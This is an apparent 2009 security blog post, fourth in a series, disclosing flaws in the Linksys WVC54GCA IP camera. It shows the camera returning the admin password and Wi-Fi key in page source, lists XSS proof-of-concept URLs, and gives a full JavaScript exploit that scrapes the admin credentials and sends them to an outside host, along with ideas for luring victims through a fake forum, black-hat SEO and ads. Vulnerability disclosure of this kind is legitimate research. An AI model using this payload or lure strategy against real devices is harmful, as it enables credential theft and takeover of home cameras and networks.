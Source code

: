 ```yaml
---
title: Hacking Linksys IP Cameras (pt 4)
author: adrian-pastor
date: Sat, 25 Apr 2009 03:28:38 GMT
template: this/views/post.jade
category: fucked
---
```


_This article is a continuation of the following GNUCITIZEN articles, which include an introduction to the topic and also some initial observations: [Hacking Linksys IP Cameras (pt 1)](/blog/hacking-linksys-ip-cameras-pt-1/), [Hacking Linksys IP Cameras (pt 2)](/blog/hacking-linksys-ip-cameras-pt-2/), [Hacking Linksys IP Cameras (pt 3)](/blog/hacking-linksys-ip-cameras-pt-3/)._

There are two types of vulnerabilities I will be releasing today: disclosure of credentials in client-side source code and multiple XSS.

### Disclosure of Credentials in Client-side Source Code

As a consumer of embedded products, I find highly frustrating to see how many devices' web interfaces return passwords back to the browser within HTML source code. I've also seen similar problems in some corporate appliances, but is not such as common problem within the enterprise realm.

Visiting the change admin password page:

    /adm/file.cgi?next_file=pass_wd.htm

    Causes the current admin password to be returned (just view the source code with your browser):

    <input type="password" size="8" maxlength="64" name="admpw" value="**C4mP4ssw0rd**" onKeyDown="chkPsize(this.value.length,64,msg_bigpw)"></pre>`

    Visiting the "Wireless Security Page":

    /adm/file.cgi?next_file=Wsecurity.htm

    Causes the Wi-Fi WEP/WPA/WPA2 encryption key to be returned to the browser:

    <input type="text" name="psk" size="24" maxlength="63" value="**mywirelesskey**">

    Obviously this is bad news, as it means that every time the aforementioned pages are visited, credentials travel the clear (the WVC54GCA IP camera doesn't have SSL/TLS support).

    Now, I know there are people out there who might find these types of issues not worth fixing. The following is the thinking behind their reasoning.

    In the case of the admin password disclosure, some people would argue that this issue wouldn't make a difference security-wise, since the camera uses [basic authentication](http://en.wikipedia.org/wiki/Basic_access_authentication) which transmits credentials in the clear (base64 encoding) anyway.

    In the case of the wireless encryption key disclosure, some individuals point out that if you can sniff the Wi-Fi encryption key, it means that either 1) you're already part of the wireless network which means you must already know the key, or 2) you are part of the network via an ethernet connection which means that you don't need the wireless key at all.

    So why fix these issues then? Well, think of client-side attacks for instance. If you keep reading I'll show you how you can (for instance) use XSS to steal the admin password from the aforementioned page. If the admin password wasn't returned by the web interface, this attack would not be possible, despite basic authentication being used by the camera.

    ### Several XSS bugs

    Yes, XSS is the roach of the Internet, it's everywhere and we can't seem to be able to get rid of it! Of course, Linksys IP cameras are no exception. Finding XSS vulns requires virtually no skills (unless you are trying to bypass a strict filter logic). Also, hunting for XSS vulns can be kind of boring. As pdp usually says, "it's not finding XSS bugs which is interesting, but what you can do with it". I couldn't agree more.

    Boring PoCs:

    /main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /img/main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /adm/file.cgi?next_file=%3Cscript%3Ealert(1)%3C/script%3E
    /adm/file.cgi?todo=xss&this_file=%3cscript%3ealert(1)%3c/script%3e</pre>`

    XSS bug #1 works regardless of the authentication state of the victim user. The rest do require the victim user to be logged-in for the injected JS to run within the context of the camera's domain sandbox.

    As you can see in the first two XSS vulns, we use `img` tags, rather then `script` tags, due to closing `script` tags being filtered. Once again, the developers have chosen to perform filtering against some parameters, albeit poor filtering.

    #### Admin Password theft XSS PoC

    The following is the PoC exploit which steals the admin user's password.

    // **evil.js** : malicious JS file, typically located on attacker's site
    // payload description: steals Linksys WVC54GCA admin password via XSS
    // tested on FF3 and IE7
    // based on code from developer.apple.com
    function loadXMLDoc(url) {
    	req = false;
        	// branch for native XMLHttpRequest object
        	if(window.XMLHttpRequest && !(window.ActiveXObject)) {
        		try {	
    			req = new XMLHttpRequest();
            	} 
    		catch(e) {
    			req = false;
            	}
        	} 
        	// branch for IE/Windows ActiveX version	
    	else if(window.ActiveXObject) {
           		try { 
            		req = new ActiveXObject("Msxml2.XMLHTTP");
          		} 
    		catch(e)  {
            		try {
              			req = new ActiveXObject("Microsoft.XMLHTTP");
            		} 
    			catch(e) {
              			req = false;
            		}
    		}
        	}
    	if(req) {
    		req.onreadystatechange = processReqChange;
    		req.open("GET", url, true);
    		req.send("");
    	}
    }
    // end of loadXMLDoc(url)

    function processReqChange() {
       	// only if req shows "loaded"
        	if (req.readyState == 4) {
            	// only if "OK"
            	if (req.status == 200) { 
    			// dirty credentials-scraping code
    			var bits=req.responseText.split(/\"/);	
    			var gems="";
    			for (i=0;i<bits.length;++i) { 
                                    if(bits[i]=="adm" && bits[i+1]==" value=") {      
                                   		gems+="login="; 
    					gems+=bits[i+2];
                                    }
                                    if(bits[i]=="admpw" && bits[i+1]==" value=") {      
                                           	gems+='&password='; 
    					gems+=bits[i+2];    
                                    }
    			}
    			alert(gems); // this line is for demo purposes only and would be removed in a real attack
    			c=new Image();
    			c.src='http://google.com/x.php?'+gems; // URL should point to data-theft script on attacker's site
            	} 
        	}
    }

    var url="/adm/file.cgi?next_file=pass_wd.htm";
    loadXMLDoc(url);

    http://192.168.1.115/adm/file.cgi?next_file=%3cscript%20src=http://evil.foo/**evil.js**%3e%3c/script%3e

If you capture the traffic while testing the exploit against yourself you will see the admin login and password being sent to google.com:

<div class="screen">![Screenshot eth1 Capturing Wireshark 1](http://www.gnucitizen.org/static/blog/2009/04/screenshot-eth1-capturing-wireshark1.png "Screenshot eth1 Capturing Wireshark 1")</div>

#### Attack Requirements

In order for this exploit to work, the camera admin user must be logged in when the attack occurs. This means that a bit of social engineering is required. For instance, the attacker could setup a forum to help users of the WVC54GCA camera by providing tips, FAQs, etc. If the attacker is serious he could use [black hat SEO](http://www.timesonline.co.uk/tol/driving/article754974.ece) and ad campaigns such as Google AdWords to attract Linksys camera users to visit the site containing the malicious XSS URLs. You get the idea!

### Testing Info

All Disclosure of Credentials and XSS vulnerabilities successfully tested on:

* WVC54GCA
* Firmware V1.00R22 and V1.00R24 (latest available as on 23rd April 2009)
